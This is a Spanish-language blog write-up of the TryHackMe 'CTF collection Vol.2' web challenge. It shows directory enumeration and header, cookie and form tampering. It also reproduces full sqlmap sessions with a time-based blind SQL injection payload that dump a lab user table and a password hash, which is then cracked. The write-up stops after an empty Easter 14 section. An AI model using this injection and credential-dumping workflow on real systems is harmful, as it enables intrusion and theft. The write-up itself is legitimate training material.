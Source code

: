 ```yaml
---
layout: single
title: CTF collection Vol.2
excerpt: "Sharpening up your CTF skill with the collection. The second volume is about web-based CTF"
date: 2022-07-02
classes: wide
header:
  teaser: /assets/images/thm-writeup-ctf-vol2/ctf2_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - nmap
  - Burp Suite
  - Web
  - Reverse Shell
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-ctf-vol2/ctf2_logo.png)

- Link: <https://tryhackme.com/room/ctfcollectionvol2>

Welcome, welcome and welcome to another CTF collection. This is the second installment of the CTF collection series. For your information, the second serious focuses on the web-based challenge. There are a total of 20 easter eggs a.k.a flags can be found within the box. Let see how good is your CTF skill.

Now, deploy the machine and collect the eggs!

Warning: The challenge contains seizure images and background. If you feeling uncomfortable, try removing the background on <style> tag.

Note: All the challenges flag are formatted as THM{flag}, unless stated otherwise

---

## Easter 1-> hint: (Check the robots)

Revisando el directorio **"robots.txt"** y en esta ruta encontramos el siguiente contenido:

![flag1](/assets/images/thm-writeup-ctf-vol2/ctf2_flag1.png)

Se observa que la fila final esta en sestema hexadecimal, cadena que decodificamos en <https://gchq.github.io/CyberChef/> obteniendo el **Easter 1**

![flag1](/assets/images/thm-writeup-ctf-vol2/ctf2_flag1-.png)

---

## Easter 2 -> <https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/>

Decodificamos la primera línea en cyberchef <https://gchq.github.io/CyberChef/> obteniendo el **Easter 2**, de acuerdo con la siguiente secuencia:

~~~cs
From Base64
URL Decode
From Base64
Remove whitespace
From Base64
Remove whitespace
From Base64
~~~

![flag2](/assets/images/thm-writeup-ctf-vol2/ctf2_flag2.png)

Revisando el código de la página, se encuentra la bandera correspondiente:

![flag2](/assets/images/thm-writeup-ctf-vol2/ctf2_flag3.png)

---

## Easter 3 -> **Directory buster with common.txt might help.**

Con base en la ayuda realizamos una búsqueda con **gobuster**:

~~~cs
gobuster dir -u http://10.10.174.164/ -w /usr/share/dirb/wordlists/common.txt
~~~

![flag3](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4.png)

Revisamos el código de la página **/login** y encontramos la bandera 3:

![flag3](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4_1.png)

---

## Easter 4 -> **time-based sqli**

- Desde burpsuite, procedemos a capturar la petición **post** con datos aleatorios en los campos "Username" y "Password", guardamos esta petición con el nomnbre "post.txt"

![flag4](/assets/images/thm-writeup-ctf-vol2/ctf2_flag4_A.png)



- Utilizamos **sqlmap** para encontrar el nombre de la base de datos ejecutamos el siguiente comando; **sqlmap -r post.txt --dbs**, como se observa a continuación:


~~~sql
┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt --dbs 
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                   
|_ -| . [(]     | .'| . |                                                                                                                                                                                                                  
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:34:15 /2022-07-10/

[11:34:15] [INFO] parsing HTTP request from 'post.txt'
[11:34:15] [INFO] resuming back-end DBMS 'mysql' 
[11:34:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[11:34:15] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 12.10 or 13.04 (Precise Pangolin or Raring Ringtail or Quantal Quetzal)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[11:34:15] [INFO] fetching database names
[11:34:15] [INFO] fetching number of databases
[11:34:15] [INFO] resumed: 4
[11:34:15] [INFO] resuming partial value: in
[11:34:15] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                            
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[11:34:56] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[11:34:56] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[11:35:07] [INFO] adjusting time delay to 2 seconds due to good response times
formation_schema
[11:37:08] [INFO] retrieved: THM_f0und_m3
[11:39:18] [INFO] retrieved: mysql
[11:39:59] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] THM_f0und_m3

[11:42:17] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 11:42:17 /2022-07-10/
~~~

- En este punto, "Dumpeamos" las tablas base de datos con el siguiente comando: **sqlmap -r post.txt -D THM_f0und_m3 --tables** como se observa a continuación:

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 --tables
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . ["]     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:02:15 /2022-07-10/

[12:02:15] [INFO] parsing HTTP request from 'post.txt'
[12:02:15] [INFO] resuming back-end DBMS 'mysql' 
[12:02:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[12:02:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Quantal Quetzal or Raring Ringtail or Precise Pangolin)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[12:02:16] [INFO] fetching tables for database: 'THM_f0und_m3'
[12:02:16] [INFO] fetching number of tables for database 'THM_f0und_m3'
[12:02:16] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[12:02:23] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[12:02:37] [INFO] retrieved: 
[12:02:42] [INFO] adjusting time delay to 2 seconds due to good response times
nothing_inside
[12:04:41] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[12:05:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 12:05:12 /2022-07-10/
~~~

- Revisamos la estructura de la tabla "nothing_inside" con el comando: **sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside --columns**, con el siguiente resultado:

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside --columns
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                   
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:30:47 /2022-07-10/

[13:30:47] [INFO] parsing HTTP request from 'post.txt'
[13:30:47] [INFO] resuming back-end DBMS 'mysql' 
[13:30:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:30:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.10 or 12.04 (Quantal Quetzal or Raring Ringtail or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:30:48] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[13:30:48] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:30:55] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[13:31:12] [INFO] retrieved: 
[13:31:23] [INFO] adjusting time delay to 2 seconds due to good response times
Easter_4
[13:32:24] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[13:33:49] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 13:33:49 /2022-07-10/

- De acuerdo con el paso anterior, se encontró un solo campo **Easter_4**, el cual procedemos a "dumpear" con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:37:59 /2022-07-10/

[13:37:59] [INFO] parsing HTTP request from 'post.txt'
[13:37:59] [INFO] resuming back-end DBMS 'mysql' 
[13:37:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:37:59] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 13.04 or 12.10 (Raring Ringtail or Precise Pangolin or Quantal Quetzal)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:37:59] [INFO] fetching SQL SELECT statement query output: 'select Easter_4 from nothing_inside'
[13:37:59] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:38:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[13:38:17] [INFO] retrieved: 
[13:38:27] [INFO] adjusting time delay to 2 seconds due to good response times
THM{1nj3c7_l1k3_4_b055}
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
[13:41:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'


---
## Easter 5 -> **Another sqli**

- Trabajando con la misma base de datos del punto anterior y sabiendo que existe una tabla "user" procedemos a dumpearla con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T user --columns**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T user --columns
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:44:19 /2022-07-10/

[13:44:19] [INFO] parsing HTTP request from 'post.txt'
[13:44:19] [INFO] resuming back-end DBMS 'mysql' 
[13:44:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:44:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 12.04 or 13.04 or 12.10 (Raring Ringtail or Quantal Quetzal or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[13:44:20] [INFO] fetching columns for table 'user' in database 'THM_f0und_m3'
[13:44:20] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:44:27] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[13:45:13] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
2
[13:45:19] [INFO] retrieved: 
[13:45:24] [INFO] adjusting time delay to 2 seconds due to good response times
username
[13:46:19] [INFO] retrieved: varchar(30)
[13:47:45] [INFO] retrieved: password
[13:48:52] [INFO] retrieved: varchar(40)
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+

[13:50:18] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 13:50:18 /2022-07-10/

- Llegados a este punto procedemos a dumpear el contenido, con el siguiente comando; **sqlmap -r post.txt -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"**

┌──(root㉿kali)-[/home/ocortesl/Escritorio]
└─# sqlmap -r post.txt -D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                                                                                                    
|_ -| . [(]     | .'| . |                                                                                                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:56:57 /2022-07-10/

[13:56:57] [INFO] parsing HTTP request from 'post.txt'
[13:56:57] [INFO] resuming back-end DBMS 'mysql' 
[13:56:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 1604 FROM (SELECT(SLEEP(5)))wwnM) AND 'pMmd'='pMmd&password=a&submit=submit
---
[13:56:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Precise Pangolin or Quantal Quetzal or Raring Ringtail)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[13:56:57] [INFO] fetching SQL SELECT statement query output: 'select username,password from user'
[13:56:57] [INFO] the SQL query provided has more than one field. sqlmap will now unpack it into distinct queries to be able to retrieve the output even if we are going blind
[13:56:57] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)                                                                                                             
[13:57:05] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[14:00:20] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
2
the SQL query provided can return 2 entries. How many entries do you want to retrieve?
[a] All (default)
[#] Specific number
[q] Quit
> a
[14:00:37] [INFO] retrieved: 
[14:00:42] [INFO] adjusting time delay to 2 seconds due to good response times
DesKel
[14:01:31] [INFO] retrieved: 05f3672ba34409136aa71b8d00070d1b
[14:05:41] [INFO] retrieved: Skidy
[14:06:20] [INFO] retrieved: He is a nice guy, say hello for me
select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me

[14:11:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.4.61'

[*] ending @ 14:11:19 /2022-07-10/


- Crakeamos el hash;**DesKel, 05f3672ba34409136aa71b8d00070d1b** encontrado en -> <https://crackstation.net/> y obtenemos el siguiente resultado:

![flag4](/assets/images/thm-writeup-ctf-vol2/ctf2_flag5.png)

- Con el usuario y contraseña encontrados en los puntos anteriores, procedemos a autenticarnos en la página "/login" y obtenemos la bandera correspondiente a este punto.

---

## Easter 6 -> **Look out for the response header.**

- Ejecutamos el siguiente comando; **curl -s 10.10.4.61 -D header.txt**

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Documentos/THM/CTF2]
└─# curl -s 10.10.4.61 -D header.txt
<!DOCTYPE html>
<html>
                <head>
                <title>360 No Scope!</title>
                <h1>Let's get party! Erm....mmmmmmmmmmm</h1>
                <script src="jquery-9.1.2.js"></script>
                 <style>
                        body {
                                background-image: url('static.gif');
                                }
                </style> 
                <img src="rainbow-frog.gif"/><img src="rainbow-frog.gif"/><img src="rainbow-frog.gif"/>
        </head>

        <body>
                <h2>DID you know: Banging your head against a wall for one hour burns 150 calories.</h2>
                                        <p><img src="who.gif"/></p>
                        <h2> Who are you? Did I invite you?</h2>
                        <hr><hr><hr><hr><hr><hr><hr>
        <p>Psst....psst.. hey dude.......do you have extra cash</p>
        <p>Please buy me one iphone 11....I'm poor, link down below.</p>
                        <h4>You need Safari 13 on iOS 13.1.2 to view this message. If you are rich enough</h4>
                <a href="https://www.apple.com/iphone-11/"><img src="iphone.jpg"/></a>
        <br><br>
        <img src="nicole.gif"/><img src="nicole.gif"/><img src="nicole.gif"/><img src="nicole.gif"/>
        <br>
        <h3>Spin me right now, spin me right now</h3>
        <h1>Ohhhhhh... Did you subsribe to Tryhackme? Is a great platform<h1>
        <h3>Thanks to them, I able to make this so call 'weird' room!!!!!!!<h3>
        <a href="/free_sub"><h2>Btw, I got a free gift for you, Perhaps a subscription voucher. Claim now!</h2></a>
        <hr><hr><hr><hr>
        <h3>Is dinner time boiiiiiiiii</h3>
        <img src="dinner.gif"/>
        <h2>Let see the menu, huh..............</h2>
        <form method="POST">
        <select name="dinner">
                 <option value="salad">salad</option>
                 <option value="chicken sandwich">chicken sandwich</option>
                 <option value="tyre">tyre</option>
                 <option value="DesKel">DesKel</option>
        </select>
         <br><br><br>
                 <button name="submit" value="submit">Take it!</button>
        </form>

                <h1 style="color:red"">Press this button if you wishes to watch the world burn!!!!!!!!!!!!!!!!<h1>...

~~~

- Listamos el archivo **header.txt** y encontramos la bandera 6:

~~~sql
┌──(root㉿kali)-[/home/ocortesl/Documentos/THM/CTF2]
└─# cat header.txt                  
HTTP/1.1 200 OK
Date: Sun, 10 Jul 2022 19:03:13 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Busted: Hey, you found me, take this Easter 6: THM{l37'5_p4r7y_h4rd}
Set-Cookie: Invited=0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
~~~

---

## Easter 7 -> **Cookie is delicious**

- Mediante Burp analizamos el "header" y encontramos una "kookie" con valor = 0:

![flag7](/assets/images/thm-writeup-ctf-vol2/ctf2_flag7.png)


- Enviamos esta petición al "repeater" y cambiamos el valor de la "kookie" = 1, enviamos la petición y encontramos "Easter 7":

![flag7](/assets/images/thm-writeup-ctf-vol2/ctf2_flag7_1.png)

---

## Easter 8 -> **Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1**

- De acuerdo con la pista, cambiamos el "User-Agent":

![flag8](/assets/images/thm-writeup-ctf-vol2/ctf2_flag8.png)


- Obteniendo la bandera correspondiente:

![flag8](/assets/images/thm-writeup-ctf-vol2/ctf2_flag8_1.png)


## Easter 9 -> **Something is redirected too fast. You need to capture it.**

- Con el siguiente comando encontramos el "Easter 9":


~~~bash
# curl http://10.10.4.61/ready/
<html>
        <head>
                <title>You just press it</title>
                <meta http-equiv="refresh" content="3;url=http:gone.php" />
                <p style="text-align:center"><img src="bye.gif"/></p>
                <!-- Too fast, too good, you can't catch me. I'm sanic Easter 9: THM{????????????} -->
        </head>

</html>

~~~

---

## Easter 10 -> **Look at THM URL without https:// and use it as a referrer.**

- Buscando "Tryhackme" en el código del "home", encontramos la siguiente ruta; **/fre_sub**:

![flag10](/assets/images/thm-writeup-ctf-vol2/ctf2_flag9.png)

- Realizamos curl sobre esta ruta y encontramos el siguiente mensaje:

~~~bash
└─# curl http://10.10.4.61/free_sub/                 
only people came from tryhackme are allowed to claim the voucher.
~~~

- De acuerdo con la pista modificamos el "referer" utilizando "tryhackme.com" y encotramos el "Easter 10"

![flag10](/assets/images/thm-writeup-ctf-vol2/ctf2_flag10.png)

ctf2_flag10.png

---

## Easter 11 -> ** Temper the html.**

- Revisamos en el "home" y encontramos este apartado "Is dinner time boiiiiiiiii" en el cual podemos escoger la cena, la respuesta al seleccionar "salad" es: **Mmmmmm... what a healthy choice, I prefer an egg**:


![flag11](/assets/images/thm-writeup-ctf-vol2/ctf2_flag11.png)

- Enviamos la solicitud al "repeater" y modificamos el menu por "egg" y encontramos el "Easter 11"

![flag11](/assets/images/thm-writeup-ctf-vol2/ctf2_flag11_1.png)

---

## Easter 12 -> **Fake js file**

- Buscando archivos ".js" en el código del home:

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12.png)

- Como se observa en el código, existe el script: **jquery-9.1.2.js**, al cual nos dirigimos:

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12_1.png)

- Decodificamos el código "From Hex" en <<"https://gchq.github.io/CyberChef/>> y encontramos el "Easter 12":

![flag12](/assets/images/thm-writeup-ctf-vol2/ctf2_flag12_2.png)

---

## Easter 13 -> **Fake js file**

- Al resolver "Easter 9" se consigue el "Easter 13":

![flag13](/assets/images/thm-writeup-ctf-vol2/ctf2_flag13.png)

---

## Easter 14 -> **Embed image code**


---

## Fuentes

- Cyberchef:
<https://gchq.github.io/CyberChef/>

- Que son Los permisos 777 755 700 664 666 y CHMOD:
<https://americandominios.com/conta/knowledgebase/627/Que-son-Los-permisos-777-755-700-664-666-y-CHMOD.html>

- explainshell.com
<https://explainshell.com/explain?cmd=ssh%20-i%20keyfile%20host>

- Reverse Shell Cheat Sheet
<https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python>
